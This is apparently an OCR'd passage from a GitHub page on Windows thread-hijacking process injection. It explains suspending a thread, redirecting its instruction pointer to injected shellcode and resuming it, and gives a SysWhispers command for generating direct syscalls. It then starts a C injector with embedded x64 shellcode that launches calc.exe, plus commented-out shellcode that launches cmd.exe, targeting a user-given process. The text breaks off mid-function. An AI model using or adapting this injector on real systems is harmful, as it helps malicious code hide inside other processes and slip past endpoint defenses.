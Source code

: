 	2. The context of the thread is then retrieved (`NtGetContextThread`) and
	   modified (`NtSetContextThread`) to point execute the shellcode (by setting
		 the thread's `instruction pointer register (rip)` to the allocated
		 shellcode).

  3. Finally, the thread execution is resumed (`NtResumeThread`).

```bash
python .\syswhispers.py -a x64 -o ThreadHijacking --functions NtAllocateVirtualMemory,NtWriteVirtualMemory,NtProtectVirtualMemory,NtOpenProcess,NtOpenThread,NtSuspendThread,NtGetContextThread,NtSetContextThread,NtResumeThread
```

```c
int _tmain(int argc, TCHAR** argv) {
    // Hex encoded binary shellcode.

    /* Calc.exe */
    unsigned char shellcode[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x20\x41\xff\xd6";

    /* cmd.exe */
    //unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
    //    "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    //    "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
    //    "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
    //    "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
    //    "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
    //    "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
    //    "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
    //    "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
    //    "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
    //    "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
    //    "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
    //    "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
    //    "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    //    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
    //    "\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
    //    "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    //    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x6d\x64"
    //    "\x2e\x65\x78\x65\x00";

    size_t szShellcode = sizeof(shellcode);

    if (argc < 2) {
#ifdef _DEBUG
        printf("Usage: code.exe <TARGET_PROCESS_PID | TARGET_PROCESS_NAME>\n");
#endif
        return 1;
    }

    DWORD tpid = _tstoi(argv[1]);

    if (tpid == 0) {
```